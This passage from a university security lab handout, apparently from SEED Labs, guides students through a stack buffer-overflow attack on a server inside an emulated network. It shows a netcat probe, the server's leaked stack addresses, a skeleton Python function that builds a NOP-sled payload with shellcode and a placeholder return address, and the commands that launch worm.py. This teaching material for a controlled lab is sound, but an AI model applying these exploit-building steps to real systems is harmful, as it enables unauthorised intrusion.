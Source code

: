 Let’s first send a benign message to our target server. We will see the following messages printed out by the target container (the actual messages you see may be different).
```
// On the host machine
$ echo hello | nc -w2 10.151.0.71 9090

// Messages printed out by the container
as151h-host_0-10.151.0.71 | Starting stack
as151h-host_0-10.151.0.71 | Input size: 6
as151h-host_0-10.151.0.71 | Frame Pointer (ebp) inside bof(): 0xffffd5f8     ✰
as151h-host_0-10.151.0.71 | Buffer’s address inside bof(): 0xffffd588        ✰
as151h-host_0-10.151.0.71 | ==== Returned Properly ====
```
&emsp; For the sake of simplicity, we let the server print out some of its internal parameters (see lines marked by ✰). Students are allowed to use these parameters when constructing their attacks. In particular, they need to modify Lines ➀ and ➁ inside `createBadfile ()`.
```
def createBadfile():
    content = bytearray(0x90 for i in range(500))
    ##################################################################
    # Put the shellcode at the end
    content[500-len(shellcode):] = shellcode

    ret     = 0x00         ➀
    offset  = 0x00         ➁


    content[offset:offset + 4] = (ret).to_bytes(L,byteorder=’little’)
    ##################################################################


    # Save the binary code to file
    with open(’badfile’, ’wb’) as f:
        f.write(content)
```
&emsp; To test the attack, simply run the attack program `worm.py`. It will generate the badfile, and then send its content to the target server. If you see a smiley face printed out on the target machine, that means that you are attack has succeeded, and your injected code has been executed.
```
$ chmod +x worm.py
$ ./worm.py
```
**Lab task.** Please modify the provided skeleton code `worm.py`, launch the attack against the first target, and demonstrate that your attack is successful.

### 4.3 The Shellcode

The malicious code that we would like to run on the target server is called shellcode, which is typically written using the assembly language and then converted to the binary machine code. In this lab, we only provide the binary version of a generic shellcode, without explaining how it works, because it is non-trivial. If students are interested in how exactly shellcode works and want to write a shellcode from scratch, they can learn that from a separate SEED lab called *Shellcode Lab.*
